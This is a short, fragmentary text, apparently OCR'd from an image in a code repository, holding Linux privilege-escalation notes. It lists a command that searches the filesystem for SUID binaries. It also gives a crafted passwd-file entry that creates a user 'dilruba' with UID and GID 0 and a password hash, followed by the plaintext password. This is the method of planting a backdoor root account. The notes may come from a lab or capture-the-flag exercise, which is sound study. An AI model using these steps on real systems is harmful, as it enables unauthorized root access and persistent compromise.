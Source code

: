 SHOWING SUID

find / -perm -u=s -type f 2>/dev/null


dilruba:$1$dilruba$NePiGtLjL7dBUVToIGRJA1:0:0
passwd----dil1123
